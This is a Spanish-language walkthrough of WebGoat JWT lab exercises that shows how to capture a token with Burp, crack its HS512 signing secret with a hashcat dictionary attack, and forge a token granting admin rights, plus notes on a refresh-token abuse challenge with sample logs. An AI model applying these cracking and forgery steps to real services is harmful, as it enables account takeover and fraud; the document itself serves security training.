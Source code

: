 # JWT tokens

JsonWebTokens 

**********************************************************************

# Proceso
Capturamos la petición

# 1) Capturamos el access token con ayuda de burp
## Access token
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0.cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ
```

Dado el RFC de JWT sabemos que el token se compone de 3 partes y está separado por `.`

## Access token explain
```
Header:
	eyJhbGciOiJIUzUxMiJ9
Claim: 
	eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0
Signature:
	cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ
```

## Access token decoded
```
Header:
	{"alg":"HS512"}
Claim: 
	{"iat":1594522971,"admin":"false","user":"Sylvester"}
Signature:
	?
```

***************************************************************

# 2) Crackeamos el access token para encontrar el "secret" con el que se cifro

Con Ayuda de hashcat trataremos de encontrar el `secret` mediante un ataque de diccionario

1. Creamos un archivo token.txt con nuestro token
2. Usamos el diccionario proporcionado por [first20hours](https://github.com/first20hours/google-10000-english/blob/master/google-10000-english.txt)
3. Usamos la herramienta hashcat

La sintaxis de la herramienta es la siguiente:
```bash
# Using a Wordlist:  
hashcat -a0 -m 16500 text.hash [dict]

# Pure Brute force attack:  
hashcat -a3 -m 16500 text.hash
```

Para nuestro caso sería:
```bash
# Using a Wordlist:  
hashcat -a0 -m 16500 token.txt google-10000-english.txt
```

Lo que nos dará el siguiente output
```
Dictionary cache built:
* Filename..: google-10000-english.txt
* Passwords.: 10000
* Bytes.....: 75888
* Keyspace..: 10000
* Runtime...: 0 secs

eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0.cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ:victory
```

Donde podemos observar que el `secret` es `victory`

***************************************************************
# 3) Modificamos y creamos un nuevo token

Una vez que tenemos el `secret` podemos crear un nuevo token correctamente firmado.
Para esto, hacemos lo siguiente:

1. Abrimos jwt.io
2. Pegamos nuestro token original
3. Modificamos `"admin": "false"`, a `"admin": "true"`
4. Ingresamos nuestro `secret` que en este caso es `victory`
5. Copiamos el nuevo token y lo pegamos en la función `repeater` de burp

***********************************************************************

# Materiales de ayuda
+ https://gchq.github.io/CyberChef/
+ https://jwt.io/
+ https://security.stackexchange.com/questions/200918/using-hashcat-in-order-to-crack-the-jwt-signature-in-webgoat
+ https://github.com/first20hours/google-10000-english/blob/master/google-10000-english.txt


************************************************************************

# JWT cracking - 5
Crackea el token y cambia el username por WebGoat

```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU5MzY1ODk2NCwiZXhwIjoxNTkzNjU5MDI0LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.13Z65CLhvxsVYa9upeQ2FH8g726PKAx-qJ11-xmS8fU
```

# JWT Tokens - 7

## El reto 7 y 8 parecen fallar al utilizar cookies en lugar de JWT tokens


¿Puede encontrar la manera de ordenar libros haciendo que pague Tom por ellos?
```
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/checkout?token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q HTTP/1.1" 401 242 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```

```bash
# refresh token tom
GET /JWT/refresh/checkout?token=
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q 

# refresh token webgoat
POST /WebGoat/JWT/refresh/checkout HTTP/1.1
eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A


194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```

# Referencias adicionales
+ https://emtunc.org/blog/11/2017/jwt-refresh-token-manipulation/
+ https://stackoverflow.com/questions/3252851/how-to-display-request-headers-with-command-line-curl
+ https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)#jwt-tokens
+ https://haxkerxavier.home.blog/2019/05/04/webgoat-authentication-flaws-jwt-tokens-7/
